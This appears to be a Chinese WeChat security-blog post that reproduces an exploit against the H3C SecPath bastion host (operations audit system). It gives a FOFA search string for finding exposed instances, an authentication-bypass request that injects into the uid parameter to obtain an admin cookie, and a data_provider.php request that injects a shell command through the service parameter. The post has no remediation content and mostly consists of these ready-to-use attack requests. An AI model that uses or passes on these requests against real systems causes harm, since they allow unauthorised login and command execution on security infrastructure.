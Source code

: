 ##  漏洞复现:H3C SecParh堡垒机 data provider.php 远程命令执行漏洞

椰子  [ 神隐攻防实验室 ](javascript:void\(0\);)

**神隐攻防实验室** ![]()

微信号 gh_84eef72d8c4d

功能介绍 安全知识学习，web渗透，安全资料分享！

____

__

收录于话题

  
  

点击蓝字/关注我们

  
![](https://gitee.com/fuli009/images/raw/master/public/20210805105948.png)

01:漏洞影响

H3C SecParh fortress machine  

![](https://gitee.com/fuli009/images/raw/master/public/20210805105948.png)

02:FOFA语法

  

app="H3C-SecPath-运维审计系统"

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805105948.png)

03:漏洞利用

通过任意用户登录获取Cookie：  

/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin

  

/audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(id)&identity_cond=&query_type=all&format=json&browse=true

  

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805105948.png)

04:漏洞复现

  

    
    
    通过fofa语法app="H3C-SecPath-运维审计系统"找到一个登录页面

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805105952.png)

  

先通过任意用户登录获取Cookie

  

    
    
    /audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805105953.png)

然后换成最后POC进去，成功实现

    
    
    /audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(id)&identity_cond=&query_type=all&format=json&browse=true

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805105954.png)

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

漏洞复现:H3C SecParh堡垒机 data provider.php 远程命令执行漏洞

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

